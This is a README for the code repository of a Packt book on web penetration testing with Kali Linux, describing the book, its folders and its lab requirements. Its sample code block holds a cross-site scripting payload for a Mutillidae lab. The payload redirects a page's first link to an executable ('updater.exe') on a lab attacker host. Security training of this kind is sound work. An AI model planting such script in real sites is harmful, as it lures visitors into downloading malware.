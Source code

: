 # Mastering Kali Linux for Web Penetration Testing
This is the code repository for [Mastering Kali Linux for Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-web-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781784395070), published by [Packt](https://www.packtpub.com/?utm_source=github). It contains all the supporting project files necessary to work through the book from start to finish.
## About the Book
You will start by delving into some common web application architectures in use, both in private and public cloud instances. You will also learn about the most common frameworks for testing, such as OWASP OGT version 4, and how to use them to guide your efforts. In the next section, you will be introduced to web pentesting with core tools and you will also see how to make web applications more secure through rigorous penetration tests using advanced features in open source tools. The book will then show you how to better hone your web pentesting skills in safe environments that can ensure low-risk experimentation with the powerful tools and features in Kali Linux that go beyond a typical script-kiddie approach. After establishing how to test these powerful tools safely, you will understand how to better identify vulnerabilities, position and deploy exploits, compromise authentication and authorization, and test the resilience and exposure applications possess.


## Instructions and Navigation
All of the code is organized into folders. Each folder starts with a number followed by the application name. For example, Chapter02.

Chapter 01, 02, 04, 05, 09, 11, and 12 doesn't contain code files.

The code will look like the following:
```
http://172.16.30.129/mutillidae/index.php?page=user-info.php
&username=
Infiltrating Sessions via Cross-Site Scripting
[ 20 ]
<script>window.onload = function() {var
AllLinks=document.getElementsByTagName("a"); AllLinks[0].href =
"http://172.16.30.128/updater.exe"; }</script>
```

Hardware list:
The exercises performed in this book and the tools used can be deployed on any modern
Windows, Linux, or Mac OS machine capable of running a suitable virtualization platform
and a more recent version of the OS. Suggested minimum requirements should allow for at
least the following resources to be available to your virtual platforms:
4 virtual CPUs
4-8 GB of RAM
802.3 Gigabit Ethernet, shared with host machine
802.11a/g/n/ac WiFi link, shared with host machine
Software list:
Desktop/Laptop Core OS and Hypervisor:
Virtualization should be provided by one of Kali Linux's supported hypervisors, namely
one of the following options. The operating system and hardware will need to support the
minimum requirements, with an eye toward dedicating the previous hardware
recommendations to the guest virtual machines.

## Related Products
* [Mastering Kali Linux for Advanced Penetration Testing - Second Edition](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing-second-edition?utm_source=github&utm_medium=repository&utm_campaign=9781787120235)

* [Mastering Kali Linux for Advanced Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781782163121)

* [Kali Linux Web Penetration Testing Cookbook](https://www.packtpub.com/networking-and-servers/kali-linux-web-penetration-testing-cookbook?utm_source=github&utm_medium=repository&utm_campaign=9781784392918)

### Suggestions and Feedback
[Click here](https://docs.google.com/forms/d/e/1FAIpQLSe5qwunkGf6PUvzPirPDtuy1Du5Rlzew23UBp2S-P3wB-GcwQ/viewform) if you have any feedback or suggestions.
